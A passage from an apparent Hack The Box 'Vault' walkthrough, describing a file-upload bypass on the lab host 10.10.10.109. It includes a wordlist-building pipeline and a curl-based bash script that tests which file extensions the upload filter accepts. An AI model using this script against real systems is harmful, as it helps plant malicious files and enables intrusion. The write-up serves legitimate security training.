 ![33bd9acb.png](/assets/images/posts/vault-htb-walkthrough/33bd9acb.png)
</a>


### File Upload Bypass

What we are seeing here is a classic file upload attack, specifically by discovering the whitelisted file extensions. To that end, I wrote a `bash` script with `curl` as the main driver and by supplying the script with a wordlist containing a large number of file extensions, I can determine which extensions are whitelisted.

The wordlist is derived from `/etc/mime.types` like so.

```
awk '{ $1 = ""; print $0 }' /etc/mime.types | sed -r -e 's/^ //g' -e '1,26d' -e '/^$/d' | tr ' ' '\n' > extensions.txt
```
The script is shown below.

<div class="filename"><span>filter.sh</span></div>

```bash
#!/bin/bash

EXT=$1
HOST=10.10.10.109
URL=http://$HOST/sparklays/design/changelogo.php
UPLOADS=http://$HOST/sparklays/design/uploads

curl -s \
     -F "file=@info;filename=info.${EXT}" \
     -F "submit=upload+file" \
     $URL \
| sed '1!d' \
| cut -d '<' -f1 \
| grep success &>/dev/null && echo "[+] Uploaded: $UPLOADS/info.${EXT}"
```

The script takes in a file extension as argument. I'm using GNU Parallel to speed things up like so.


[1]: https://www.hackthebox.eu/home/machines/profile/161
[2]: https://www.hackthebox.eu/home/users/profile/5621
[3]: https://www.hackthebox.eu/
